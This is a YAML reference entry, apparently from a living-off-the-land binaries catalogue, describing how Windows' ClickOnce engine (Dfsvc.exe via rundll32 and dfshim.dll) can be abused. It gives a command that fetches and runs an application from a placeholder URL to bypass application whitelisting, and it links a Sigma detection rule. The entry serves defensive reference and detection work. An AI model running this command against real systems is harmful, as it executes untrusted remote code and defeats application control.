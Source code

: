 ```yaml
---
Name: Dfsvc.exe
Description: ClickOnce engine in Windows used by .NET
Author: 'Oddvar Moe'
Created: 2018-05-25
Commands:
  - Command: rundll32.exe dfshim.dll,ShOpenVerbApplication http://www.domain.com/application/?param1=foo
    Description: Executes click-once-application from Url (trampoline for Dfsvc.exe, DotNet ClickOnce host)
    Usecase: Use binary to bypass Application whitelisting
    Category: AWL Bypass
    Privileges: User
    MitreID: T1127
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
Full_Path:
  - Path: C:\Windows\Microsoft.NET\Framework\v2.0.50727\Dfsvc.exe
  - Path: C:\Windows\Microsoft.NET\Framework64\v2.0.50727\Dfsvc.exe
  - Path: C:\Windows\Microsoft.NET\Framework\v4.0.30319\Dfsvc.exe
  - Path: C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Dfsvc.exe
Code_Sample:
  - Code:
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/08ca62cc8860f4660e945805d0dd615ce75258c1/rules/windows/process_creation/win_susp_rundll32_activity.yml
Resources:
  - Link: https://github.com/api0cradle/ShmooCon-2015/blob/master/ShmooCon-2015-Simple-WLEvasion.pdf
  - Link: https://stackoverflow.com/questions/13312273/clickonce-runtime-dfsvc-exe
Acknowledgement:
  - Person: Casey Smith
    Handle: '@subtee'
---
```

